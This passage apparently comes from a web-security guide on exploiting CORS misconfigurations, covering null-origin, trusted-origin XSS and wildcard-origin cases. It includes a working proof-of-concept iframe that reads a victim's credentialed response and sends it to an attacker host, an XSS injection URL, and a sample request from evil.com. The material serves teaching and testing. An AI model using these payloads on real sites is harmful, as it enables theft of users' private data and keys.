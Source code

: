 #### Proof of concept

This can be exploited by putting the attack code into an iframe using the data
URI scheme. If the data URI scheme is used, the browser will use the `null`
origin in the request:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://victim.example.com/endpoint',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```

### Vulnerable Example: XSS on Trusted Origin

If the application does implement a strict whitelist of allowed origins, the
exploit codes from above do not work. But if you have an XSS on a trusted
origin, you can inject the exploit coded from above in order to exploit CORS
again.

```
https://trusted-origin.example.com/?xss=<script>CORS-ATTACK-PAYLOAD</script>
```

### Vulnerable Example: Wildcard Origin `*` without Credentials

If the server responds with a wildcard origin `*`, **the browser does never send
the cookies**. However, if the server does not require authentication, it's still
possible to access the data on the server. This can happen on internal servers
that are not accessible from the Internet. The attacker's website can then 
pivot into the internal network and access the server's data without authentication.

```powershell
* is the only wildcard origin
https://*.example.com is not valid
```

#### Vulnerable Implementation

```powershell
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"[private API key]"}
```
